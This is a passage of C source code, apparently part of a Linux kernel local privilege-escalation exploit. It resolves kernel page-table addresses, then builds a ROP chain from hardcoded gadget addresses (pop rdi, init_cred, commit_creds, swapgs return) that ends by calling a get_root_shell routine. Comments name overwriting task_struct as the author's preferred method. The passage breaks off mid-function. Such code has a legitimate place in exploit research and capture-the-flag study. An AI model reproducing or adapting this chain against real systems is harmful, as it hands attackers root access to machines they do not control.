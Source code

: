 ```c
    /* only this is a virtual addr, others in page table are all physical addr*/
    pgd_addr = mm_struct_buf[9];

    printf("\033[32m\033[1m[+] Got kernel page table of current task:\033[0m"
           "0x%lx\n\n", pgd_addr);
}

/**
 * It may also be okay to write ROP chain on pipe_write's stack, if there's
 * no CONFIG_RANDOMIZE_KSTACK_OFFSET_DEFAULT(it can also be bypass by RETs). 
 * But what I want is a more novel and general exploitation that 
 * doesn't need any information about the kernel image. 
 * So just simply overwrite the task_struct is good :)
 * 
 * If you still want a normal ROP, refer to following codes.
*/

#define COMMIT_CREDS 0xffffffff811284e0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff82201a90
#define INIT_CRED 0xffffffff83079ee8
#define POP_RDI_RET 0xffffffff810157a9
#define RET 0xffffffff810157aa

void privilege_escalation_by_rop(void)
{
    size_t rop[0x1000], idx = 0; 

    /* resolving some vaddr */
    pgd_vaddr_resolve();
    
    /* reading the page table directly to get physical addr of kernel stack*/
    puts("[*] Reading page table...");

    stack_addr_another = vaddr_resolve(pgd_addr, stack_addr);
    stack_addr_another &= (~PAGE_ATTR_NX); /* N/X bit */
    stack_addr_another += page_offset_base;

    printf("\033[32m\033[1m[+] Got another virt addr of kernel stack: \033[0m"
           "0x%lx\n\n", stack_addr_another);

    /* construct the ROP */
    for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
        rop[idx++] = RET + kernel_offset;
    }

    rop[idx++] = POP_RDI_RET + kernel_offset;
    rop[idx++] = INIT_CRED + kernel_offset;
    rop[idx++] = COMMIT_CREDS + kernel_offset;
    rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE +54 + kernel_offset;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;

    stack_page = direct_map_addr_to_page_addr(stack_addr_another);

    puts("[*] Hijacking current task's stack...");

    sleep(5);

```